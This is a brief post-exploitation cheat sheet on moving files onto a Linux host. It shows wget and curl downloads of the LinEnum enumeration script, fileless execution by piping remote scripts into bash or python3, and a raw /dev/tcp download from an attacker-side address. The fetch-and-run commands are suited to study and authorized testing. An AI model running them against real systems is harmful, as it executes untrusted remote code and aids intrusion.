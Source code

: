 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Linux
---
```



#### Download a File Using [[wGet]]

```shell-session
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

#### Download a File Using [[cURL]]

```shell-session
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

#### Fileless Download with wGet

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Bash

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

1. Connect to the Target Webserver 

```shell-session
exec 3<>/dev/tcp/10.10.10.32/80
```

2. HTTP GET Request

```shell-session
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

3. Print the Response

```shell-session
cat <&3
```

